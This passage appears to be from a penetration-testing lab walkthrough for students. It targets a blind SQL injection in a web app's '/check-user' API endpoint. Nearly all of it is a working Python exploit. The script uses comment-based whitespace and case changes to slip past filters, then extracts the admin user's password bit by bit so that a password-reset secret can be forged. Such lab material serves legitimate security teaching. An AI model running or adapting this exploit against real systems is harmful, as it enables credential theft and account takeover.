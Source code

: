 To construct the "secretKey" required for reseting passwords as exposed by the POST `/reset-password` action of the controller `ResetPasswordController`, students need to exfiltrate the password and email of the user `admin`, starting with the former:

Code: python

```python
passwordLength = dumpNumber("passwoRd");
password = dumpString("passwoRd", passwordLength)
print(password)
```

Code: python

```python
#!/usr/bin/env python3

import requests, json, sys
from urllib.parse import quote_plus

def oracle(query):
    existingUser = "admin"
    whitespace = "/*-*/"
    baseURL = f"http://STMIP:8080/api/v1/check-user?u={existingUser}"
    SQLiPayload = f''''{whitespace}And{whitespace}({query.replace(" ", whitespace)})--{whitespace}-'''
    response = requests.get(baseURL + quote_plus(SQLiPayload))
    jsonResponse = json.loads(response.text)
    return jsonResponse["exists"] == True

def dumpNumber(fieldToDump):
    length = 0
    for p in range(0, 7):
        if oracle(f"(Select Length({fieldToDump}) From users Where username = 'admin') & {2**p} > 0"):
            length |= 2**p
    return length

def dumpString(fieldToDump, length):
    string = ""
    for i in range(1, length + 1):
        character = 0
        for p in range (0, 7):
            if oracle(f"(Select Ascii(Substring({fieldToDump},{i},1)) From users Where username = 'admin') & {2**p} > 0"):
                character |= 2**p
        string += chr(character)
    return string

passwordLength = dumpNumber("passwoRd");
password = dumpString("passwoRd", passwordLength)
print(password)
```
